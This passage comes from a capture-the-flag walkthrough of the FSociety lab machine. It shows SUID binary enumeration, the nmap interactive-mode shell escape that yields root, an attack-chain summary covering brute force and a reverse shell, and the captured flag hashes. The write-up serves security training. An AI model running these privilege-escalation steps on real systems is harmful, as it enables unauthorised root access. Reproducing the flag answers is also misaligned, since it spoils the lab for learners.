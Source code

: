 ```bash
find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
```

**Critical Finding:**
- `/usr/local/bin/nmap` - Version 3.81 with interactive mode

### Nmap Privilege Escalation Exploitation

**Vulnerability**: Legacy nmap version with interactive mode allowing shell escape
**Exploitation Steps:**
```bash
nmap --interactive
Starting nmap V. 3.81
nmap> !sh
root@ip-10-10-236-194:/home/robot#
```

**Root Access Achieved**

### Final Flag Capture

```bash
cd /root
ls -la
cat key-3-of-3.txt
```

**Root Flag Obtained:**
```
04787ddef27c3dee1ee161b21670b4e4
```

## Conclusion

The FSociety machine was successfully compromised through a methodical penetration testing approach. The attack path demonstrates a classic web application to root compromise scenario:

### Attack Chain Summary:
1. **Reconnaissance** → WordPress identification and vulnerability assessment
2. **Exploitation** → WordPress admin access via password brute-force
3. **Initial Access** → Reverse shell deployment through web application
4. **Lateral Movement** → Password hash cracking and user privilege escalation
5. **Privilege Escalation** → SUID binary exploitation to gain root access

### Flags Captured:
- **Key 2 of 3**: `822c73956184f694993bede3eb39f959` (User robot)
- **Key 3 of 3**: `04787ddef27c3dee1ee161b21670b4e4` (Root)

## Lessons Learned

### Security Vulnerabilities Identified
